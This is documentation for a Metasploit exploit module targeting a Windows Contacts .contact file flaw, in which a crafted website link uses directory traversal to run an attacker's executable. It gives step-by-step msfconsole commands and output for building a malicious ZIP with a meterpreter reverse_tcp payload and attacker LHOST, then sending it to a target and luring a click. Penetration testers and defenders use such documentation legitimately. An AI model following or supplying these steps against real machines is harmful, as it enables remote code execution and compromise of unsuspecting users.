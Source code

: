 ## Description

This module allows remote attackers to execute arbitrary code on vulnerable
installations of Microsoft Windows.  User interaction is required to exploit
this vulnerability in that the target must visit a malicious page or open a
malicious file.  The flaw is due to the processing of ".contact" files <c:Url>
node param which takes an expected website value, however if an attacker
references an executable file it will run that instead without warning instead
of performing expected web navigation.  This is dangerous and would be
unexpected to an end user.

Executable files can live in a sub-directory so when the ".contact" website link
is clicked it traverses directories towards the executable and runs.  Making
matters worse is if the the files are compressed then downloaded "mark of the
web" (MOTW) may potentially not work as expected with certain archive utilitys.
The "." chars allow directory traversal to occur in order to run the attackers
supplied executable sitting unseen in the attackers directory.  This advisory is
a duplicate issue that currently affects Windows .VCF files, and released for
the sake of completeness as it affects Windows .contact files as well.

## Vulnerable Application

Windows Contacts
(tested on Windows 10.0.18282)

## Verification Steps

1. `./msfconsole`
2. `use exploit/windows/fileformat/microsoft_windows_contact_remote_code_execution`
3. Configure the payload.  For example: `set PAYLOAD windows/x64/meterpreter/bind_tcp`
4. Configure the payload parameters.  For example: `set LHOST 192.168.1.1`
5. Enter the name of the user to be embedded in the contact, which will also be used as the filename for the .ZIP and .CONTACTS files.  For example, `set FILENAME John Smith`
6. Enter the fake URL that the user must click to launch the payload.  Note, this does not need to be a valid domain.  For example: `set WEBSITE metasploit.com`
7. `run`
8. Confirm the ZIP file was created, and that it contains a `.CONTACT` file along with a payload in the `http` folder.

## Scenarios

### Exploiting a Windows 10 host

1. Configure the module-specific settings.

```
msf5 exploit(windows/fileformat/microsoft_windows_contact_remote_code_execution) > set WEBSITE metasploit.com
WEBSITE => metasploit.com
msf5 exploit(windows/fileformat/microsoft_windows_contact_remote_code_execution) > set FILENAME John Smith
FILENAME => John Smith
```

2. Configure the payload.
```
msf5 exploit(windows/fileformat/microsoft_windows_contact_remote_code_execution) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/microsoft_windows_contact_remote_code_execution) > set LHOST 192.168.1.148
LHOST => 192.168.1.148
msf5 exploit(windows/fileformat/microsoft_windows_contact_remote_code_execution) > run

[+] Creating 'John Smith.zip'
```

3. Send the ZIP to the target machine.

4. On the target machine, extract the ZIP file, open the .CONTACT file in the Windows Contacts viewer, and click the URL in the "Website" field.

